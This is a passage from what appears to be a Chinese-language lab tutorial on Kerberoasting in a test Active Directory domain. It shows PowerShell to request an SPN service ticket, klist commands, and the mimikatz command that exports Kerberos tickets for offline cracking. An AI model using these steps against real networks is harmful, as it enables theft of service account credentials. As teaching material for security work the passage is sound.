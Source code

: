### 3.2 请求 SPN Kerberos 票据

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Win7.test.lab:1433"

# 查看缓存中的票据
klist
# 删除缓存票据
klist purge
```

![截图](0c80ae370235e2e7802d199e5bcb3d04.png)

![截图](7384886539807e86cfadb82e12f15df6.png)

### 3.3 导出 SPN Kerberos 票据

```
# 在 mimikatz 中执行：
kerberos::list /export
```
